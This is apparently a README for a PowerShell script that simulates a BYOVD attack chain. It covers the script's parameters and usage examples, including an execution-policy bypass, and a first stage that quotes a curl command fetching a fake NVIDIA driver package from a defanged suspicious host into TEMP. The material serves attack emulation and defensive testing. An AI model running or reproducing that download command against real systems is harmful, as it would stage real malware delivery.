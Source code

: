 ### **📋 test_attack_chain.ps1 - Complete Usage Guide**

The `test_attack_chain.ps1` script provides the most comprehensive and user-friendly way to execute the complete BYOVD attack simulation. It automates all three stages of the attack chain with enhanced logging and debugging capabilities.

#### **🎯 Basic Usage**
```powershell
# Simple execution (recommended for most users)
.\test_attack_chain.ps1

# With execution policy bypass if needed
powershell -ExecutionPolicy Bypass -File test_attack_chain.ps1
```

#### **⚙️ Script Parameters**

| Parameter | Type | Default | Description |
|-----------|------|---------|-------------|
| `-UseLocalFile` | Switch | `$true` | Use local package file instead of network download |
| `-TestPackagePath` | String | `".\nvidiadrivers.zip"` | Path to the test package file |
| `-VerboseOutput` | Switch | `$true` | Display detailed execution output |
| `-CleanupAfterTest` | Switch | `$true` | Clean up artifacts after test completion |

#### **📝 Parameter Examples**

```powershell
# Standard execution with all default settings
.\test_attack_chain.ps1

# Preserve all artifacts for forensic analysis
.\test_attack_chain.ps1 -CleanupAfterTest:$false

# Quiet execution with minimal output
.\test_attack_chain.ps1 -VerboseOutput:$false

# Custom package location
.\test_attack_chain.ps1 -TestPackagePath "C:\Security\Packages\nvidiadrivers.zip"

# Full parameter specification
.\test_attack_chain.ps1 -UseLocalFile -TestPackagePath ".\nvidiadrivers.zip" -VerboseOutput -CleanupAfterTest:$false
```

#### **🔄 Attack Chain Simulation Process**

The script executes three distinct stages that mirror real-world BYOVD attacks:

**Stage 1: Download Simulation**
```
SIMULATION: curl -k -o "%TEMP%\nvidiadrivers.zip" https://api.smartdriverfix[.]cloud/nvidiadrivers-kp9s.update
```
- Safely copies local package to TEMP directory (no actual network activity)
- Verifies file integrity and size
- Creates realistic download artifacts
